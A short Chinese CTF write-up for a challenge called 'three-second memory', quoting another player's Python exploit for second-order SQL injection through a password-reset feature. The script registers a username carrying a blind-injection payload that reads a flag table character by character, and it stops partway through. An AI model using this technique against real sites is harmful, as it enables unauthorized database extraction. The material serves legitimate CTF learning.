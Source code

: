 ###10 、三秒钟记忆
> 三秒钟记忆
300
最近只有三秒钟记忆，忘记的事情总是要一遍一遍的找回来...
http://huashan.xdsec.cn/pic

这题也没做出来

也是看了师傅们的wp
**`二次注入，触发点在密码找回那边。exp：`**
```py
import requests
import base64
import os
import random
#by mathias@xdsec
# Copyright (c) 7 team  All rights reserved
def regist(usr):
    flag=False
    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':usr,'pass':'123456','email':'123456','register':'%E6%B3%A8%E5%86%8C'}
    r=requests.post(url,data=payload)
    txt=r.text.encode('utf-8')
    if 'Duplicate' in txt or len(txt)==503:
        flag=True
    return flag

def reset(usr):
    flag=False
    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':usr,'reset':'%E5%BF%98%E8%AE%B0%E5%AF%86%E7%A0%81'}
    r=requests.post(url,data=payload)
    if len(r.text)==460:
        flag=True
    return flag

if __name__=="__main__":

    url="http://huashan.*****.cn/pic/index.php?page=login"
    flag=False
    user=str(random.randint(10000000000,99999999999))
    p=user+'\' and (select ascii(substr(flag,1,1)) from flag)>50#' 
    flag=regist(user)
    if not flag:
        print "regist "+user+" error"
        os._exit()
    else:
        print "regist "+user+" success"

    flag=regist(p)
    if not flag:
        print "regist "+p+" error"
        os._exit()
    else:
        print "regist "+p+" success,now reset password"

    flag=reset(p)
    if flag:
        print "Reset success,now inject"
    else:
        print "reset "+p+" error"
        os._exit()

    url="http://huashan.*****.cn/pic/index.php?page=login"
    payload={'name':user,'pass':'123456','login':'%E7%99%BB%E5%BD%95'}
```
